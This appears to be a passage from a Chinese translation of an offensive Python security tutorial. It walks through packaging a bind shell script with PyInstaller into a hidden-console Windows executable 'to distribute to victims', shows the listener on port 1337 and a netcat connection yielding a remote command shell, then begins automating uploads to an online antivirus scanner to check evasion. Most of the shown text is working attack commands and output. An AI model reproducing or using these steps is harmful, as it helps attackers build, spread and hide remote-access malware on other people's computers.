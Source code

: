 接下来，我们将指导 Pyinstaller 建立一个说明文件为 Windows 的可执行文件做准备，我们将指示 Pyinstaller 不显示一个控制台用 `--noconsole` 选项，最终构建一个最终的可执行程序到一个单独的文件用`--onefile` 选项。

```
C:\Users\victim\pyinstaller-1.5.1>python.exe Makespec.py --onefile --noconsole bindshell.py
wrote C:\Users\victim\pyinstaller-1.5.1\bindshell\bindshell.spec
now run Build.py to build the executable 
```

接下来，建立了说明文件后，我们将指示 Pyinstaller 建立一个可执行文件分发给我们的受害者。Pyinstaller 创建一个名为`bindshell.exe` 的可执行程序在目录`bindshell\dist\`下，我们现在可以分发这个可执行程序给任何 Windows 32 位系统的受害者。

```
C:\Users\victim\pyinstaller-1.5.1>python.exe Build.py bindshell\bindshell.spec
I: Dependent assemblies of C:\Python27\python.exe:
I: x86_Microsoft.VC90.CRT_1fc8b3b9a1e18e3b_9.0.21022.8_none
checking Analysis
<..SNIPPED..>
checking EXE
rebuilding outEXE2.toc because bindshell.exe missing
building EXE from outEXE2.toc
Appending archive to EXE bindshell\dist\bindshell.exe 
```

在我们的受害者的电脑上运行可执行程序后，我们可以看到 TCP 的 1337 端口正在监听。

```
C:\Users\victim\pyinstaller-1.5.1\bindshell\dist>bindshell.exe
C:\Users\victim\pyinstaller-1.5.1\bindshell\dist>netstat -anp TCP
Active Connections
Proto Local Address oreign Address State
TCP 0.0.0.0:135 0.0.0.0:0 LISTENING
TCP 0.0.0.0:1337 0.0.0.0:0 LISTENING
TCP 0.0.0.0:49152 0.0.0.0:0 LISTENING
TCP 0.0.0.0:49153 0.0.0.0:0 LISTENING
TCP 0.0.0.0:49154 0.0.0.0:0 LISTENING
TCP 0.0.0.0:49155 0.0.0.0:0 LISTENING
TCP 0.0.0.0:49156 0.0.0.0:0 LISTENING
TCP 0.0.0.0:49157 0.0.0.0:0 LISTENING 
```

连接到受害者的 IP 地址和 TCP 的 1337 端口，我们看到我们的恶意软件正在成功的运行，正如预期的那样。但是它能成功的躲避杀毒软件码？在下一节我们将编写一个 Python 脚本来验证：

```
attacker$ nc 192.168.95.148 1337
Microsoft Windows [Version 6.0.6000]
Copyright (c) 2006 Microsoft Corporation. All rights reserved.
C:\Users\victim\pyinstaller-1.5.1\bindshell\dist> 
```

## 验证躲避

我们将使用服务`vscan.novirusthanks.org` 扫描我们的可执行程序。NoVirusThanks 提供了一个 WEB 页面接口上传可疑文件并用 14 种不同的杀毒引擎扫描。使用 WEB 页面接口上传恶意文件时可以告诉我们我们想知道的，让我们利用这个机会编写一个快速的 Python 脚本来自动化处理这个过程。用 tcpdump 捕获和 WEB 页面接口交互的过程给了我们的 Python 脚本的一个很好的开始点。我么可以看到，HTTP 头包含了一个围绕文件内容边界的设定。我们的脚本需要这些头和这些参数，为了提交文件：
